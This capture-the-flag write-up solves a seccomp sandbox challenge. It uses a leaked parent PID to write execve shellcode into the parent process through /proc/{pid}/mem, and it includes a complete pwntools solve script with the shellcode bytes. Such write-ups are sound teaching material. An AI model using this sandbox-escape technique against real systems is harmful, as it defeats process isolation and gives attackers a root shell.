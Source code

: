 ## x3-ctf Secure-sandbox

## Recon

in this challenge we get the opportunity to execute a shellcode of our choice in a child process with seccomp enabled

by running `seccomp-tools` we can see what we can use

```
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x00 0x0b 0xc000003e  if (A != ARCH_X86_64) goto 0013
 0002: 0x20 0x00 0x00 0x00000000  A = sys_number
 0003: 0x35 0x00 0x01 0x40000000  if (A < 0x40000000) goto 0005
 0004: 0x15 0x00 0x08 0xffffffff  if (A != 0xffffffff) goto 0013
 0005: 0x15 0x06 0x00 0x00000001  if (A == write) goto 0012
 0006: 0x15 0x05 0x00 0x00000002  if (A == open) goto 0012
 0007: 0x15 0x04 0x00 0x00000003  if (A == close) goto 0012
 0008: 0x15 0x03 0x00 0x00000008  if (A == lseek) goto 0012
 0009: 0x15 0x02 0x00 0x00000014  if (A == writev) goto 0012
 0010: 0x15 0x01 0x00 0x0000003c  if (A == exit) goto 0012
 0011: 0x15 0x00 0x01 0x000000e7  if (A != exit_group) goto 0013
 0012: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0013: 0x06 0x00 0x00 0x00000000  return KILL
```

so we we can use:
- write
- open
- close
- lseek
- writev
- exit
- exit_group

but no read, we can't do open read write for flag
Also in the first 4 lines we can see the arch check and x32 abi check is there

## Exploitation

Forunately for us, on executing the chall file it gives us the PID for the parent process before forking.
This is a very meaningful leak since, using `/proc/{pid}/mem` we can change the memory of the parent process

it's possible to edit the parent's memory from child since they belong to same group and the chall file is probably being run as root.

So using `open` we first open `/proc/{pid}/mem`
i saw it in use in this [writeup](http://jgeralnik.github.io/writeups/2020/09/05/writeonly/)
Then we can use `lseek` to get out cursor to the area where `puts` function is, since after executing the shellcode we execute the puts function.
After that we can use `write` to wrtite our shellcode where `puts` is

and finally we'll get the shell

the [solve script](solve.py)

```python
from pwn import *

context.arch = 'amd64'
r = process(["./chall"])
#r = remote("3a1c5799-2da8-4f8e-8562-890c0ed98533.x3c.tf",31337,ssl=True)
r.recvuntil(b':')
pid = int(r.recvline().strip(),10)

pl = asm(f'''
        xor edx,edx
        mov esi,0x1
        lea rdi,[rip+stuff]
        mov rax,0x2
        syscall
        mov rdi,rax
        mov rsi,0x421a80
        xor rdx,rdx
        mov rax,0x8
        syscall
        mov rdi,0x3
        lea rsi,[rip+shellcode]
        mov rdx,0x100
        mov rax,0x1
        syscall
        ret
        stuff:
                .string "/proc/{pid}/mem"
        shellcode:
                .byte 0x48, 0x31, 0xf6, 0x56, 0x48, 0xbf, 0x2f, 0x62
                .byte 0x69, 0x6e, 0x2f, 0x2f, 0x73, 0x68, 0x57, 0x54, 0x5f,0x6a,0x3b,0x58,0x99,0x0f,0x05

'''
)
print(pl)
context.terminal=['st']

#gdb.attach(r,'''b *setup_sandbox+0x14d''')

r.send(pl)
r.interactive()
```

